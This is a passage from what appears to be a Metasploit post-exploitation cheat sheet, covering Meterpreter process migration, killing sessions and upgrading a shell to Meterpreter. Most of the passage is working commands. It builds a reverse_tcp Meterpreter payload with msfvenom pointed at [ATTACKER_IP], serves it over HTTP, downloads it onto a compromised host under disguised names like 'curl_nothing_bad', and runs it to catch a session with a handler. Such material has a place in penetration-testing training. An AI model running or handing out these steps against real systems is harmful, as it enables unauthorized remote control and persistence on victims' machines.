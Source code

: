 ```bash
meterpreter > pgrep [PROCESS_NAME]
# search for [PROCESS_NAME] on the process tree
meterpreter > migrate [PID]
# migrate to [PID]
meterpreter > migrate -N [PROCESS_NAME]
# migrate to [PROCESS_NAME]
msf6 > sessions -k [SESSION_ID]
# kill a session
msf6 > sessions -K
# kill all sessions
```

Keep in mind: the Meterpreter shell will work differently depending on the platform it's currently running at.
Some commands might not be available for Linux, but they could be available for Windows and vice versa.

<a id=7.1.2></a>
### Upgrading Shells

We can upgrade our shell in various ways, but the used are the following:

- Via post-exploitation modules
- Via msfvenom payloads

```bash
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION [SESSION_ID]
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST [ATTACKER_IP]
msf6 post(multi/manage/shell_to_meterpreter) > set LPORT [ATTACKER_PORT]
msf6 post(multi/manage/shell_to_meterpreter) > run
# instead of doing this, we can do the following which is way easier.
msf6 > sessions -u [SESSION_ID]
# is does the same, but imagine that it works like a resource script.
```

Lets do a quick summary of how to do it with msfvenom.

```bash
# we'll assume that this is a seperate terminal from the msfconsole. 
# for explicative purposes, we'll also assume this is a linux system. later we'll see it
# for windows.
$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -f elf -o funfile LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT]
$ sudo python -m http.server 80
# lets go back to the shell session on msfconsole
/bin/bash -i
# first get an interactive terminal, although it's not required
$ curl localhost/funfile -o curl_nothing_bad
$ wget localhost/funfile -o wget_nothing_bad
# although unusual, maybe one binary or the other might not exist.
# go to the previous terminal and run the following
$ msfconsole -x "use exploit/multi/handler; set LHOST [DEV/IP]; set LPORT [PORT]; set payload linux/x64/meterpreter/reverse_tcp; run"
# this will act similar to a resource script in the way that you type this once and just wait for the console
# to take all the inputs and run the handler for you. after thats done, back to the shell session
$ chmod +x funfile
# need xperms to run a file... never forget
$ ./funfile
# check handler, meterpreter is here to stay. ^Z and enjoy
```
